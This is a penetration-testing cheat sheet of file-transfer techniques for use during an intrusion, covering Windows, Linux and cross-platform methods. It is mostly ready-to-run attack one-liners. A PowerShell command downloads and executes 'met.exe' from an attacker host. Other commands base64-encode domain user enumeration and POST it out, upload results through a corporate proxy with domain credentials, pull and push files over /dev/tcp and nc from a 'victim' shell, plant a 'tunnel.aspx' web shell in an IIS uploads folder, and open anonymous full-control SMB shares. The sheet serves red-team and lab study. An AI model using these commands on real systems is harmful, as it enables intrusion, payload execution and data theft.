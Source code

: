# File Transfer




## Linux

* [https://snovvcrash.github.io/2018/10/11/simple-http-servers.html](https://snovvcrash.github.io/2018/10/11/simple-http-servers.html)




## Windows



### Base64

Local file to base64:

```
Cmd > certutil -encode <FILE_TO_ENCODE> C:\Windows\Temp\encoded.b64
Cmd > type C:\Windows\Temp\encoded.b64
```

Local string to base64 and POST:

```
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > IWR -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```



### Hex

Compress a binary file and transfer it to Windows by copy-pasting commands into the console:

```
$ upx -9 file.exe
$ exe2hex -x file.exe -p file.cmd
$ cat file.cmd | xclip -i -sel c
```



### PowerShell

PowerShell upload file:

```
PS > (New-Object Net.WebClient).UploadFile("http://10.10.13.37/file.txt", "file.txt")
```

PowerShell auto detect proxy, download file from remote HTTP server and run it:

```
$proxyAddr=(Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings").ProxyServer;$proxy=New-Object System.Net.WebProxy;$proxy.Address=$proxyAddr;$proxy.UseDefaultCredentials=$true;$client=New-Object System.Net.WebClient;$client.Proxy=$proxy;$client.DownloadFile("http://10.10.13.37/met.exe","$env:userprofile\music\met.exe");$exec=New-Object -com shell.application;$exec.shellexecute("$env:userprofile\music\met.exe")
```

PowerShell manually set proxy and upload file to remote HTTP server:

```
$client=New-Object System.Net.WebClient;$proxy=New-Object System.Net.WebProxy("http://proxy.megacorp.local:3128",$true);$creds=New-Object Net.NetworkCredential("snovvcrash","Passw0rd!","megacorp.local");$creds=$creds.GetCredential("http://proxy.megacorp.local","3128","KERBEROS");$proxy.Credentials=$creds;$client.Proxy=$proxy;$client.UploadFile("http://10.10.13.37/results.txt","results.txt")
```




## Linux2Linux



### /dev/tcp

```
 # Sender:
root@kali:$ tar -zcvf folder.tar.gz folder
root@kali:$ nc -w3 -lvnp 1234 < folder.tar.gz
 # Recipient:
www-data@victim:$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > .folder.tar.gz'
www-data@victim:$ tar -zxvf .folder.tar.gz

 # Recipient:
root@kali:$ nc -w3 -lvnp 1234 > file.txt
 # Sender:
www-data@victim:$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```




## Linux2Windows

* [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)



### Base64

Full base64 file transfer from Linux to Windows:

```
$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```



### SMB


#### smbserver.py

Start SMB server:

```
$ sudo smbserver.py -smb2support files `pwd`
```

Mount SMB in Windows with `net use`:

```
$ sudo smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > net use Z: \\10.10.13.37\share
PS > net use Z: \\10.10.13.37\share /u:snovvcrash 'Passw0rd!'
```

Mount SMB in Windows with `New-PSDrive`:

```
$ sudo smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > $pass = 'Passw0rd!' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $pass)
Or
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > New-PSDrive -name Z -root \\10.10.13.37\share -Credential $cred -PSProvider 'filesystem'
PS > cd Z:
```


#### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```



### FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```



### TFTP

Send `file.exe` from Windows to Linux (TFTP client must be [enabled](https://teckangaroo.com/enable-tftp-windows-10/) on Windows):

```
$ sudo atftpd --daemon --bind 10.10.13.37 --port 69 ./tftp
Cmd > tftp -i 10.10.13.37 put file.exe
$ sudo pkill atftpd
```
